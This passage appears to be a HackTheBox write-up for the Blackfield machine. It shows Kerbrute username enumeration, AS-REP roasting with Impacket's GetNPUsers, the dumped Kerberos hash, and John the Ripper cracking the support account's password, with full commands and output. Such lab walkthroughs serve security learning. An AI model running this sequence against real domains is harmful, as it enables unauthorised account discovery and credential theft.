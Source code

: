 #### Kerberos User Enumeration

When I'm working with a HackTheBox machine and running the Kerberos protocol the first tool I will run is Kerbrute. You can download it on the [Kerbrute Releases Page](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3), and use it as shown below. This tool will use the pre-authentication system on the kerberos service to determine valid users on the target domain. If users are AS-REP roastable it will also pull their password hashes for further use.

```bash
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ ./kerbrute_linux_amd64 userenum -d BLACKFIELD.local --dc 10.10.10.192 /usr/share/wordlists/seclist

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/19/23 - Ronnie Flathers @ropnop

2023/02/19 22:12:15 >  Using KDC(s):
2023/02/19 22:12:15 >   10.10.10.192:88

2023/02/19 22:15:39 >  [+] VALID USERNAME:       support@BLACKFIELD.local
2023/02/19 22:17:15 >  [+] VALID USERNAME:       guest@BLACKFIELD.local
2023/02/19 22:28:02 >  [+] VALID USERNAME:       administrator@BLACKFIELD.local
```

#### AS REP Roasting Users

Once a list of domain users has been created we can use [Impacket](https://github.com/fortra/impacket) to send AS REP queries to the domaian controller. If any of these accounts have `UF_DONT_REQUIRE_PREAUTH` set on their accounts then we can query the password hash of the given account. This is then output into a file for JohnTheRipper to use. John is able to crack the password hash and provide us with the credentials of the `support@BLACKFIELD.local` user as shown below.

`support@BLACKFIELD.local:#00^BlackKnight`

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ impacket-GetNPUsers 'BLACKFIELD.local/' -usersfile users.list -dc-ip 10.10.10.192 -format john -outputfile asrep.hashes -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User guest@BLACKFIELD.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@BLACKFIELD.local doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                      
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ cat asrep.hashes 
$krb5asrep$support@BLACKFIELD.local@BLACKFIELD.LOCAL:dfd960ebdbaad893c10cc87bc0a50e43$8af2fd4c6b99f96c3382f334c7a6f362229b5a840d38046246bd30c01aa0cd9e3270d3b8d346aed0d0faa6d6b039de7134b386f1e67046417f592094976f37141c73b63d079940e9a51ef74c2ebd59ce7a60a36a5816c270911398e4477f8dca1a10e7b0a8686d0a748f89b044ea439dd98799c54464bef72483c230eeb9a4f4405ee0fc0c550e3fb7c64e6fc58ee490a0f5a466e1f99133f429cce72d6d582459a866abf8087e1a4e54861dfb0d381cb09c2f6f63cb753c4edb22a234ee15cbaa60c72681857f9bc871f743247539a0393b307f3ef062ecaef8513aba94a9fff7351de0b6ea7ec9080e74f701cfe48d21393fa8
                                                                                                      
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt asrep.hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$support@BLACKFIELD.local@BLACKFIELD.LOCAL)     
1g 0:00:00:06 DONE (2023-02-19 22:48) 0.1459g/s 2092Kp/s 2092Kc/s 2092KC/s #1WIF3Y.."chito"
```